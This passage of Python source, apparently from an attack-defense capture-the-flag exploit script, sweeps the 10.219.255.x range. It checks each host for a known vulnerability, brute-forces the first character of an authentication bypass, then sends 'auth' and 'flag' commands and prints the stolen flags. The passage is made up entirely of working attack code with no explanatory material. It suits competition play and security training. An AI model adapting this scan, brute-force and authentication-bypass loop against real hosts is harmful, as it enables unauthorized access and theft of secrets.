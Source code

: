 ```python3
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(5)
        sock.connect((ip, port))
        
        # Read banner
        sock.recv(4096)
        
        # Authenticate
        sock.send(f"auth _ {first_char}\n".encode())
        time.sleep(0.3)
        auth_response = sock.recv(4096).decode()
        
        if "Authenticated as" in auth_response:
            # Get flag
            sock.send(b"flag\n")
            time.sleep(0.3)
            flag_response = sock.recv(4096).decode()
            
            if "Here is the flag:" in flag_response:
                flag = flag_response.split("Here is the flag:")[1].strip().split('\n')[0]
                sock.close()
                return flag
        
        sock.close()
    except:
        pass
    
    return None

def exploit_single_target(ip_suffix):
    """Exploit a single target with brute force"""
    ip = f"10.219.255.{ip_suffix}"
    
    # Skip our own IP
    if ip == MY_IP:
        return None
    
    print(f"{Colors.YELLOW}[*] Attacking {ip}{Colors.END}")
    
    # Check if vulnerable
    if not check_vulnerable(ip, PORT):
        print(f"{Colors.RED}[-] {ip} is patched or down{Colors.END}")
        return None
    
    print(f"{Colors.GREEN}[+] {ip} is vulnerable!{Colors.END}")
    
    # Brute force first character
    print(f"{Colors.YELLOW}[*] Brute forcing first character for {ip}...{Colors.END}")
    first_char = brute_force_first_char(ip, PORT)
    
    if not first_char:
        print(f"{Colors.RED}[-] Could not find first character for {ip}{Colors.END}")
        return None
    
    print(f"{Colors.GREEN}[+] Found first character for {ip}: '{first_char}'{Colors.END}")
    
    # Get flag
    flag = get_flag_with_char(ip, PORT, first_char)
    
    if flag:
        print(f"{Colors.GREEN}[!!!] FLAG from {ip}: {flag}{Colors.END}")
        return {"ip": ip, "flag": flag, "first_char": first_char}
    else:
```
